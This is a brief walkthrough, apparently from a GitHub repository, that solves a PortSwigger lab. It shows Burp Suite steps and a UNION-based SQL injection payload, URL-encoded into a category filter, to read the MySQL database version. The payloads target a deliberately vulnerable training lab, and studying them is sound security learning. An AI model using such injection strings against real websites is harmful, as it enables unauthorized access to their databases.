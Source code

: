 # SQL injection attack, querying the database type and version on MySQL and Microsoft

## This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

#mysql_database
___
To get MySQL database version
```sql
SELECT @@version
' UNION SELECT @@version --
```

step 1

select any category then go to
burpsuite => proxy => http history => click on =>`/filter?category=pets` => send to repeater

![screnshot](lab8_category_pets.jpg)

step 2

`' UNION SELECT @@version,NULL#` => URL Encoded (`'+UNION+SELECT+%40%40version,NULL%23`)
`/filter?category=Pets'+UNION+SELECT+%40%40version,NULL%23`

![screnshot](lab8_mysql_version_ubuntu_version.jpg)


step 3

To solve the lab
add `'+UNION+SELECT+%40%40version,NULL%23` at the end of URL

![screnshot](lab8_solved_lab.jpg)